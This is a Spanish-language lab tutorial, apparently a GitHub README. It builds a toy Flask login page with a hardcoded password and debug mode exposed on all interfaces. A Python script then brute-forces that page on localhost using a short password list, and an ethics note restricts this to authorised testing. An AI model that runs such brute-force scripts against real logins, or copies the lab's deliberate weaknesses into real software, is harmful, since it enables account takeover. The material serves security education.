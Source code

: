 # LABORATORIO365

### 1. Configuración de Termux

Primero, asegúrate de tener Python y Flask instalados en Termux. Si no lo has hecho, ejecuta los siguientes comandos:

```bash
pkg install python
pip install Flask
```

### 2. Crear la Página Web

Crea un archivo llamado `app.py` que contendrá el servidor Flask y la lógica de la página de inicio de sesión:

```bash
nano app.py
```

Luego, inserta el siguiente código:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

# Contraseña correcta
correct_password = "secreta123"

# Página de inicio de sesión
html_template = """
<!doctype html>
<html>
<head>
    <title>Prueba de Penetración</title>
</head>
<body>
    <h1>Iniciar Sesión</h1>
    <form method="POST">
        <input type="password" name="password" placeholder="Contraseña" required>
        <button type="submit">Entrar</button>
    </form>
    {% if message %}
        <p>{{ message }}</p>
    {% endif %}
</body>
</html>
"""

@app.route('/', methods=['GET', 'POST'])
def login():
    message = ""
    if request.method == 'POST':
        password = request.form.get('password')
        if password == correct_password:
            message = "¡Acceso concedido!"
        else:
            message = "Contraseña incorrecta. Inténtalo de nuevo."
    return render_template_string(html_template, message=message)

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

Este código crea una simple página web que solicita una contraseña. Si se introduce la contraseña correcta (`secreta123`), se concede acceso; de lo contrario, se muestra un mensaje de error.

### 3. Ejecutar la Aplicación

Guarda y cierra el archivo `app.py`. Luego, ejecuta el servidor Flask con el siguiente comando:

```bash
python app.py
```

La aplicación estará disponible en `http://127.0.0.1:5000/`.

### 4. Crear un Script en Python para Averiguar la Contraseña

Ahora, crearemos un script en Python que intente averiguar la contraseña. Crea un nuevo archivo llamado `brute_force.py`:

```bash
nano brute_force.py
```

Inserta el siguiente código:

```python
import requests

# URL de la página de inicio de sesión
url = "http://127.0.0.1:5000/"
# Lista de contraseñas a probar (puedes agregar más)
passwords = ["123456", "password", "123456789", "secreta123", "qwerty", "abc123"]

for password in passwords:
    response = requests.post(url, data={"password": password})
    
    if "¡Acceso concedido!" in response.text:
        print(f"Contraseña encontrada: {password}")
        break
    else:
        print(f"Contraseña incorrecta: {password}")
```

### 5. Ejecutar el Script de Fuerza Bruta

Guarda y cierra el archivo `brute_force.py`. Asegúrate de que la aplicación Flask esté en ejecución y luego ejecuta el script de fuerza bruta:

```bash
python brute_force.py
```

### 6. Consideraciones Éticas

Recuerda que realizar pruebas de penetración y ataques de fuerza bruta deben hacerse solo en entornos donde tengas permiso explícito para hacerlo. El uso indebido de estas técnicas puede tener consecuencias legales.

### Resumen

Hemos creado una sencilla aplicación web de inicio de sesión con Flask y un script en Python para intentar averiguar la contraseña mediante un ataque de fuerza bruta. Esto es solo para fines educativos y de práctica. ¡Asegúrate de usarlo de manera responsable!

